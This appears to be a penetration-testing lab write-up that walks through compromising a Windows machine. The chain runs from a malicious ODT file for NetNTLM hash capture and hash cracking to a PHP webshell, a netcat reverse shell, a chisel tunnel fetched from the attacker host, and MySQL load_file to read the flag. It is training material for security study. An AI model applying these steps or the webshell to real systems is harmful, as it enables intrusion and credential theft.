






# Progress



can only upload odt file.

it will show the staff will check the resume, which means that will open the odt file.



 search on `searchsploit`

```bash
┌──(aaron㉿aacai)-[~/.local/lib/python2.7/site-packages]
└─$ searchsploit odt
----------------------------------------------------- ---------------------------------
 Exploit Title                                       |  Path
----------------------------------------------------- ---------------------------------
LibreOffice/Open Office - '.odt' Information Disclos | windows/local/44564.py
----------------------------------------------------- ---------------------------------
Shellcodes: No Results

```


Use `44564` to generate the odt file.

```bash
aaron@aacai:~/Desktop/pg/craft$ python2 44564.py

    ____            __      ____  ____  ______
   / __ )____ _____/ /     / __ \/ __ \/ ____/
  / __  / __ `/ __  /_____/ / / / / / / /_
 / /_/ / /_/ / /_/ /_____/ /_/ / /_/ / __/
/_____/\__,_/\__,_/      \____/_____/_/


Create a malicious ODF document help leak NetNTLM Creds

By Richard Davy 
@rd_pentest
www.secureyourit.co.uk


Please enter IP of listener: "192.168.45.199"
                                                                                 
aaron@aacai:~/Desktop/pg/craft$ ls
44564.py                                     get-pip.py
bad.odt                                      php-reverse-shell.odt
ferox-http_192_168_195_188-1690803659.state  php-reverse-shell.php
ferox-http_192_168_195_188-1690803859.state  temp.odt.bak
```

Then use `responder` to try to get response from machine.

```bash
aaron@aacai:~/Desktop/pg/craft$ sudo responder -I tun0 -v
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [192.168.45.199]
    Responder IPv6             [fe80::af8c:9bd6:6024:2f2c]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-V3J788ELXMN]
    Responder Domain Name      [D029.LOCAL]
    Responder DCE-RPC Port     [46964]

[+] Listening for events...                                                         

/usr/share/responder/./Responder.py:366: DeprecationWarning: setDaemon() is deprecated, set the daemon attribute instead
  thread.setDaemon(True)
/usr/share/responder/./Responder.py:256: DeprecationWarning: ssl.wrap_socket() is deprecated, use SSLContext.wrap_socket()
  server.socket = ssl.wrap_socket(server.socket, certfile=cert, keyfile=key, server_side=True)
[SMB] NTLMv2-SSP Client   : ::ffff:192.168.195.188
[SMB] NTLMv2-SSP Username : CRAFT2\thecybergeek
[SMB] NTLMv2-SSP Hash     : thecybergeek::CRAFT2:7bdf15bbbd7a4b0b:8ED196FCC0AEA5D29811CF0F9185C953:010100000000000000C6797447C4D9010323B888C964EDB80000000002000800440030003200390001001E00570049004E002D00560033004A0037003800380045004C0058004D004E0004003400570049004E002D00560033004A0037003800380045004C0058004D004E002E0044003000320039002E004C004F00430041004C000300140044003000320039002E004C004F00430041004C000500140044003000320039002E004C004F00430041004C000700080000C6797447C4D9010600040002000000080030003000000000000000000000000030000052A5C1E9B4FDE0905ADE5129FBDE979269F1B26EC0B32129BA8F09B6346D35B20A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00340035002E003100390039000000000000000000
```

Get NTLMv2 hash, try to crack that.

```bash
aaron@aacai:~/Desktop/pg/craft$ hashcat -m 5600 thecybergeek.hash /usr/share/wordlists/rockyou.txt --force
THECYBERGEEK::CRAFT2:3e164718d4373812:c4036fa8d2280e4e3435f0308bd7a153:010100000000000000c6797447c4d901de5f8932e31eea970000000002000800440030003200390001001e00570049004e002d00560033004a0037003800380045004c0058004d004e0004003400570049004e002d00560033004a0037003800380045004c0058004d004e002e0044003000320039002e004c004f00430041004c000300140044003000320039002e004c004f00430041004c000500140044003000320039002e004c004f00430041004c000700080000c6797447c4d9010600040002000000080030003000000000000000000000000030000052a5c1e9b4fde0905ade5129fbde979269f1b26ec0b32129ba8f09b6346d35b20a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e00340035002e003100390039000000000000000000:winniethepooh
                                                          
Recovered........: 1/1 (100.00%) Digests

Started: Tue Aug  1 07:19:35 2023
Stopped: Tue Aug  1 07:19:38 2023
                                                                                                      
aaron@aacai:~/Desktop/pg/craft$ 

```

The password is `thecybergeek: winniethepooh`, use nmap to find all ports that were opened.

```bash
┌──(aaron㉿aacai)-[~/.local/lib/python2.7/site-packages]
└─$ sudo nmap -sS -p1-65535 -Pn 192.168.195.188
Host is up (0.29s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
49666/tcp open  unknown

```

Use `smbclient` to check the file that smb put.

```bash
┌──(aaron㉿aacai)-[~/.local/lib/python2.7/site-packages]
└─$ smbclient  \\\\192.168.195.188\\WebApp -U=thecybergeek --password=winniethepooh
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Apr  5 20:46:03 2022
  ..                                  D        0  Tue Apr  5 20:46:03 2022
  assets                              D        0  Tue Apr  5 20:46:03 2022
  css                                 D        0  Tue Apr  5 20:46:03 2022
  index.php                           A     9768  Mon Jan 31 19:51:52 2022
  js                                  D        0  Tue Apr  5 20:46:03 2022
  upload.php                          A      896  Mon Jan 31 18:53:02 2022
  uploads                             D        0  Tue Aug  1 07:13:45 2023

                10327807 blocks of size 4096. 1979043 blocks available
smb: \> exit

```

Put a simple webshell in here.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/craft]
└─$ smbclient  \\\\192.168.195.188\\WebApp -U=thecybergeek --password=winniethepooh
Try "help" to get a list of possible commands.
smb: \> put cmd.php
putting file cmd.php as \cmd.php (0.4 kb/s) (average 0.4 kb/s)
smb: \> exit

```

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>

```

Then rev shell



```powershell
┌──(aaron㉿aacai)-[~/Desktop/OSCPB]
└─$ nc -lvnp 4444        
listening on [any] 4444 ...

connect to [192.168.45.199] from (UNKNOWN) [192.168.195.188] 49766
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs>
 is not recognized as an internal or external command,
operable program or batch file.

C:\xampp\htdocs>whoami
whoami
craft2\apache
c:\Users\apache>cd Desktop
cd Desktop
c:\Users\apache\Desktop>type local.txt
type local.txt
69cc07712eeca3ed7b903ea8b20c0993

c:\Users\apache\Desktop>

```

# PE

```powershell
Services Information 
Interesting Services -non Microsoft-
� Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services                                                                                                
    ApacheHTTPServer(Apache Software Foundation - Apache HTTP Server)["C:\Xampp\apache\bin\httpd.exe" -k runservice] - Auto - Running
    File Permissions: apache [AllAccess]
    Possible DLL Hijacking in binary folder: C:\Xampp\apache\bin (apache [AllAccess], Users [AppendData/CreateDirectories WriteData/CreateFiles])
    Apache/2.4.48 (Win64)
    MySQL(MySQL)[C:\xampp\mysql\bin\mysqld.exe MySQL] - Auto - Running - No quotes and Space detected
    ResumeService1(ResumeService1)[C:\Program Files\nssm-2.24\win64\nssm.exe] - Auto - Running - No quotes and Space detected

� Check if you can modify any service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:
    RmSvc: GenericExecute (Start/Stop)

����������͹ Current TCP Listening Ports
� Check for services restricted from the outside 
  Enumerating IPv4 connections
                                                                                                                                                  
  Protocol   Local Address         Local Port    Remote Address        Remote Port     State             Process ID      Process Name

  TCP        0.0.0.0               80            0.0.0.0               0               Listening         2376            C:\Xampp\apache\bin\httpd.exe
  TCP        0.0.0.0               135           0.0.0.0               0               Listening         880             svchost
  TCP        0.0.0.0               443           0.0.0.0               0               Listening         2376            C:\Xampp\apache\bin\httpd.exe
  TCP        0.0.0.0               445           0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               3306          0.0.0.0               0               Listening         2004            mysqld
  TCP        0.0.0.0               5985          0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               47001         0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               49664         0.0.0.0               0               Listening         516             wininit
  TCP        0.0.0.0               49665         0.0.0.0               0               Listening         388             svchost
  TCP        0.0.0.0               49666         0.0.0.0               0               Listening         1132            svchost
  TCP        0.0.0.0               49667         0.0.0.0               0               Listening         640             services
  TCP        0.0.0.0               49668         0.0.0.0               0               Listening         652             lsass
  TCP        192.168.195.188       80            192.168.45.199        36498           Established       2376            C:\Xampp\apache\bin\httpd.exe
  TCP        192.168.195.188       139           0.0.0.0               0               Listening         4               System
  TCP        192.168.195.188       49766         192.168.45.199        4444            Established       4016            C:\xampp\htdocs\nc.exe

```

The `mysql` and `phpmyadmin` were running, but can't access phpmyadmin in local, use chisel to forward.

```powershell
PS C:\Users\Public> iwr -uri http://192.168.45.199/chisel.exe -o chisel.exe
iwr -uri http://192.168.45.199/chisel.exe -o chisel.exe
PS C:\Users\Public> .\chisel.exe client 192.168.45.199:8081 R:8082:127.0.0.1:80
.\chisel.exe client 192.168.45.199:8081 R:8082:127.0.0.1:80
```

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ ./chisel_kali server --port 8081 --reverse
2023/08/01 08:42:19 server: Reverse tunnelling enabled
2023/08/01 08:42:19 server: Fingerprint 63QITP1bqhKAQ3n7qC9BCrLaTK5Ecpe3nI97oc1dolA=
2023/08/01 08:42:19 server: Listening on http://0.0.0.0:8081
2023/08/01 08:42:57 server: session#1: tun: proxy#R:8082=>80: Listening
```

Then access on local.



Check if we have the permission to load file.



Use load file to get `proof.txt`

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('c://users/administrator//desktop//proof.txt'));
```

Then get `foo` content

```sql
select * from `foo`
```

